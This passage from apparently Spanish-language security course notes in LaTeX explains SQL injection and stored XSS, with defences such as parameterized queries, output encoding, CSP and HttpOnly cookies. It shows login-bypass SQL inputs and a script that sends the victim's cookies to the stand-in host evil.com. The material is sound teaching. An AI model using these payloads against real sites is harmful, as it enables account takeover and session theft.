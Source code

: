 \begin{cuidado}
\textbf{SQLi:} el atacante inyecta SQL en un campo de entrada.

\begin{lstlisting}[language=SQL]
-- Consulta original (vulnerable):
SELECT * FROM usuarios WHERE user='INPUT' AND pass='INPUT2';

-- El atacante escribe en el campo usuario:
-- admin'--
-- La consulta queda:
SELECT * FROM usuarios WHERE user='admin'--' AND pass='INPUT2';
-- El -- comenta el resto → login sin contraseña

-- O peor, escribe: ' OR 1=1;--
SELECT * FROM usuarios WHERE user='' OR 1=1;--' AND pass='';
-- Devuelve TODOS los usuarios
\end{lstlisting}

\textbf{Defensa:} \textbf{Prepared Statements / Parameterized Queries}.
El input nunca se interpreta como SQL.

\begin{lstlisting}
# Python con parameterized query (seguro):
cursor.execute("SELECT * FROM usuarios WHERE user=? AND pass=?",
               (usuario, password))
\end{lstlisting}
\end{cuidado}

\subsection{XSS --- Cross-Site Scripting}

\begin{cuidado}
\textbf{XSS:} el atacante inyecta JavaScript en una página web que otros
usuarios cargarán. El script se ejecuta en el browser de la víctima con
sus cookies y sesión.

\begin{lstlisting}
  Stored XSS:
  1. Atacante publica comentario:
     <script>fetch('http://evil.com/?c='+document.cookie)</script>
  2. Otro usuario carga la página con ese comentario
  3. El script roba la cookie de sesión del usuario → account takeover
\end{lstlisting}

\textbf{Defensa:}
\begin{itemize}
    \item \textbf{Output encoding:} convertir \texttt{<} → \texttt{\&lt;} antes de
          renderizar en HTML.
    \item \textbf{Content Security Policy (CSP):} header HTTP que indica al browser
          de qué fuentes puede cargar scripts. Bloquea scripts inline.
    \item \textbf{HttpOnly cookies:} cookies que JavaScript no puede leer,
          aunque inyecte código.
\end{itemize}
\end{cuidado}

